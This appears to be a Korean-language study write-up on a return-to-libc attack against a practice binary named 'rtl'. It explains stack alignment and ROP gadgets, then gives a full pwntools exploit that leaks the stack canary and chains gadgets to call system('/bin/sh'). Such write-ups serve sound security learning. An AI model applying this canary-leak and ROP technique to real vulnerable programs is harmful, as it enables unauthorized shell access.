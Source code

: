 rdi를 “/bin/sh”의 주소로 설정하고, `system`의 PLT를 활용하여 `system`을 실행한다면 (`system(”/bin/sh”)`) shell을 획득할 수 있다. 

`system` 함수를 실행할 때 stack은 반드시 **0x10 단위로 정렬**되어 있어야 한다. `system` 내의 `movaps` instruction은 stack이 0x10 단위로 정렬되어 있지 않으면 **segmentation fault**를 발생시킨다.

### Return gadget

**Return gadget**은 `ret`**으로 끝나는 assembly code 조각**을 의미한다.

NX로 인해 shellcode를 실행할 수 없으므로, **binary의 실행 가능한 section 내에서 원하는 return gadget을 찾은 뒤 이를 조합**해 프로그램을 원하는 대로 제어할 수 있다. 

**ROPgadget**을 이용해 원하는 return gadget을 찾을 수 있다.

```c
$ ROPgadget --binary ./rtl --re "pop rdi"
Gadgets information
============================================================
0x0000000000400853 : pop rdi ; ret
```

`system`과 같은 `movaps`를 포함하는 함수들을 실행하기 위해 **stack의 alignment**를 만족시켜야 할 땐 `ret` **instruction 하나만으로 이루어진 조각**을 stack에 집어넣으면 된다. (바로 stack 상의 다음 instruction으로 이동함)

### Exploit

```c
from pwn import *

p = process("./rtl")
e = ELF("./rtl")

# [1] Leak canary
buf = b"A"*0x39
p.sendafter("Buf: ", buf)
p.recvuntil(buf)
cnry = u64(b"\x00"+p.recvn(7))
print("canary", hex(cnry))

# [2] Exploit
system_plt = e.plt["system"]
binsh = 0x400874
pop_rdi = 0x0000000000400853
ret = 0x0000000000400285

payload = b"A"*0x38 + p64(cnry) + b"B"*0x8
payload += p64(ret)  # align stack to prevent errors caused by movaps
payload += p64(pop_rdi) + p64(binsh)
payload += p64(system_plt)

p.sendafter("Buf: ", payload)
p.interactive()
```
